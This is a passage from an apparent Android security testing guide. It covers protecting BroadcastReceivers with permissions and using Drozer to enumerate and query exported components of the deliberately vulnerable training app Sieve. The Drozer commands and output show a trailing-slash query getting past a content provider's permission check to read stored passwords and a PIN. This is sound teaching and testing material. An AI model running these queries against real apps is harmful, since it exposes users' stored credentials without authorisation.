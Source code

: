 BroadcastReceivers should make use of the `android:permission` attribute, as otherwise any other application can invoke them. `Context.sendBroadcast(intent, receiverPermission);` can be used to specify permissions a receiver needs to be able to [read the broadcast](https://developer.android.com/reference/android/content/Context.html#sendBroadcast(android.content.Intent\ "SendBroadcast")). You can also set an explicit application package name that limits the components this Intent will resolve to. If left to the default value of null, all components in all applications will considered. If non-null, the Intent can only match the components in the given application package.


#### Dynamic Analysis

IPC components can be enumerated using Drozer. To list all exported IPC components, the module `app.package.attacksurface` should be used:

```
dz> run app.package.attacksurface com.mwr.example.sieve
Attack Surface:
  3 activities exported
  0 broadcast receivers exported
  2 content providers exported
  2 services exported
    is debuggable
```

##### Content Providers

The "Sieve" application implements a vulnerable content provider. To list of content providers exported by the Sieve app execute the following command:

```
dz> run app.provider.finduri com.mwr.example.sieve
Scanning com.mwr.example.sieve...
content://com.mwr.example.sieve.DBContentProvider/
content://com.mwr.example.sieve.FileBackupProvider/
content://com.mwr.example.sieve.DBContentProvider
content://com.mwr.example.sieve.DBContentProvider/Passwords/
content://com.mwr.example.sieve.DBContentProvider/Keys/
content://com.mwr.example.sieve.FileBackupProvider
content://com.mwr.example.sieve.DBContentProvider/Passwords
content://com.mwr.example.sieve.DBContentProvider/Keys
```

Content providers with names like "Passwords" and "Keys" are prime suspects for sensitive information leaks. After all, it wouldn't be great if sensitive keys and passwords could simply be queried from the provider!

```
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Keys
Permission Denial: reading com.mwr.example.sieve.DBContentProvider uri content://com.mwr.example.sieve.DBContentProvider/Keys from pid=4268, uid=10054 requires com.mwr.example.sieve.READ_KEYS, or grantUriPermission()
```

```
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Keys/
| Password          | pin  |
| SuperPassword1234 | 1234 |
```
